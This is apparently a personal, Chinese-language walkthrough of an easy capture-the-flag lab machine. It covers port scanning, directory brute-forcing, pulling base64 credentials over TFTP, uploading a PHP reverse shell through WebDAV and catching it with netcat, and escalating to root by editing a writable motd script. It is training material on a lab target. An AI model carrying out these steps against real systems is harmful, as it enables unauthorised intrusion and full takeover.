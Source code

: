 ## 靶机信息
目标:找到user.txt && root.txt
级别:容易

## Recon
### nmap
```shell
nmap -sn 192.168.1.0/24
//IP:192.168.1.140

sudo nmap -sT --min-rate 10000 -p- 192.168.1.140
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## Web
### 目录爆破
```shell
sudo gobuster dir -u http://192.168.1.140 -w /usr/share/wordlists/dirb/common.txt -x txt,php,html
```
- -x:指定扩展名
```shell
//找到/tips.txt 文件
```
![[Pasted image 20231006175919.png]]
```shell
//打开creds.txt目录
//web打开发现不存在
//进行UDP端口扫描
sudo nmap -sU --min-rate 10000 --top-ports 20 192.168.1.140 
//69端口是tftp，creds.txt可能是tftp的文件
```
![[Pasted image 20231006180821.png]]
```shell
tftp 192.168.1.140
get creds.txt

cat creds.txt
eWFtZG9vdDpTd2FyZw==

echo "eWFtZG9vdDpTd2FyZw==" | base64 -d
//得到WebDav凭证
yamdoot:Swarg
```

## WebDav
![[Pasted image 20231006191135.png]]
### cadaver
```shell
cadaver http://192.168.1.140/webdav
Username: yamdoot
Password: Swarg

dav:/webdav/> put php-reverse-shell.php  //kali自带websehll地址:/usr/share/webshell

sudo nc -lvnp 1234

```
本地开启监听，网页中点击shell，得到立足点

## 提权
```shell
//TTY shell
python3 -c "import pty;pty.spawn('/bin/bash')"

/home/inferno 中找到user.txt
Flag: {5f95bf06ce19af69bfa5e53f797ce6e2}
```

### brainfuck
```shell
find / -type f -perm -ug=rwx 2>/dev/null
//看到一个shell脚本
```
![[Pasted image 20231006201848.png]]
![[Pasted image 20231006201923.png]]
```shell
//发现是brainfuck加密，在线解密 https://www.splitbrain.org/services/ook
解密后得到:chitragupt
```
![[Pasted image 20231007101014.png]]
passwd文件中看到inferno用户，尝试用chitragupt登录inferno。

## motd.d
```shell
inferno@ubuntu:~$ find / -type f -perm -ug=rwx 2>/dev/null
```
![[Pasted image 20231007110139.png]]
![[Pasted image 20231007110228.png]]
看到这个文件是可以执行命令，此时执行的是welcome信息。通过可以执行命令这一点改变root的密码(最好用nano打开文件，vi打开会有问题)
![[Pasted image 20231007110446.png]]
![[Pasted image 20231007110636.png]]
可以看到执行了00-hearder中的命令

重新登录inferno用户，执行su root，密码为passwd
成功切换到root用户
```shell
Root Flag: {9440aee508b6215995219c58c8ba4b45}
```
![[Pasted image 20231007110749.png]]




